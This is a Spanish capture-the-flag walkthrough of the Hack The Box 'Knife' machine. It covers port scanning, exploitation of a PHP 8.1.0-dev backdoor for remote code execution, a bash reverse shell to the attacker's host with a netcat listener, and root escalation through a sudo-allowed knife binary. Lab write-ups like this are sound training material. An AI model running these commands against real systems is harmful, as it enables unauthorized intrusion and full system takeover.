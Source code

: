 ```yaml
---
title: Hack The Box Knife
author: k4miyo
date: 2021-09-15
math: true
mermaid: true
image:
  path: /assets/images/htb/hackthebox.png
categories: [Easy, Linux]
tags: [PHP, GTFOBin, Backdoor]
ping: true
---
```


## Knife
Se procede con la fase de reconocimiento lanzando primeramente un `ping` a la dirección IP 10.10.10.242.

```bash
❯ ping -c 1 10.10.10.242
PING 10.10.10.242 (10.10.10.242) 56(84) bytes of data.
64 bytes from 10.10.10.242: icmp_seq=1 ttl=63 time=144 ms

--- 10.10.10.242 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 143.579/143.579/143.579/0.000 ms
```

De acuerdo con el TTL de traza ICMP, se puede determinar que se trata de una máquina con sistema operativo Linux. A continuación se procede con la ejecución de `nmap` para determinar los puertos abiertos de la máquina y exportanto la información al archivo **allPorts**.

```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.242 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-14 17:50 CDT                                                                  
Initiating SYN Stealth Scan at 17:50
Scanning 10.10.10.242 [65535 ports]
Discovered open port 22/tcp on 10.10.10.242
Discovered open port 80/tcp on 10.10.10.242
Completed SYN Stealth Scan at 17:50, 24.08s elapsed (65535 total ports)
Nmap scan report for 10.10.10.242                           
Host is up, received user-set (0.43s latency).                                                                                   
Scanned at 2021-09-14 17:50:32 CDT for 24s
Not shown: 41264 closed tcp ports (reset), 24269 filtered tcp ports (no-response)                                                
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON                                                                                                      
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63   
                                
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 24.58 seconds
           Raw packets sent: 117364 (5.164MB) | Rcvd: 43489 (1.740MB)
```

Mediante la función [extractPorts](/posts/extractPorts) definida a nivel de `zsh` , se obtiene la información más relevante de la captura grepeable.

```bash
❯ extractPorts allPorts                                         
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: extractPorts.tmp                                                                                                  
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │                                                        
   2   │ [*] Extracting information...
   3   │                   
   4   │     [*] IP Address: 10.10.10.242
   5   │     [*] Open ports: 22,80
   6   │                                                                                                                         
   7   │ [*] Ports copied to clipboard
```

A continuación se lanza una serie de scripts para determinar el servicio y versión que corren para los puertos detectados.

```bash
❯ nmap -sC -sV -p22,80 10.10.10.242 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-14 17:51 CDT
Nmap scan report for 10.10.10.242
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.56 seconds
```

Utilizamos la herramienta `whatweb` para observar que tecnologías está utilizando el sitio web.

```bash
❯ whatweb http://10.10.10.242/
http://10.10.10.242/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Podemos observare el uso de `PHP/8.1.0-dev` el cual existen un exploit público *PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution* el cual podemos aprovechar para obtener acceso a la máquina; por lo que lo descargamos y observamos que nos pide.

[PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution](https://www.exploit-db.com/exploits/49933)

Al ejecutarlo, no solicita la dirección URL de la máquina víctima, la ingresamos y nos proporciona una shell interactiva y para trabajar mas cómodos, nos entablamos una reverse shell y hacimiento un [Tratamiento de la tty](/posts/tratamiento-tty):

```bash
❯ python exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ whoami
james

$ bash -c "bash -i >& /dev/tcp/10.10.14.20/443 0>&1"
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.242] 42470
bash: cannot set terminal process group (970): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ whoami
whoami
james
james@knife:/$
```

Ya nos encontramos dentro de la máquina y podemos visualizar la flag (user.txt). Ahora nos falta escalar privilegios, por lo tanto, enumramos un poco el sistema para determinar de que forma podemos ser usuario **root**.

```bash
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
james@knife:/$
```

Observamos que podemos ejecutar el binario *knife* como el usuario **root**; por lo que vamos a nuestra fuente de confianza ***GTFOBins*** para escalar privilegios:

[GTFOBins](https://gtfobins.github.io/gtfobins/knife/)

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
# whoami
root
# 
```
Ahora ya somos administradores del sistema y podermos visualizar la flag (root.txt).
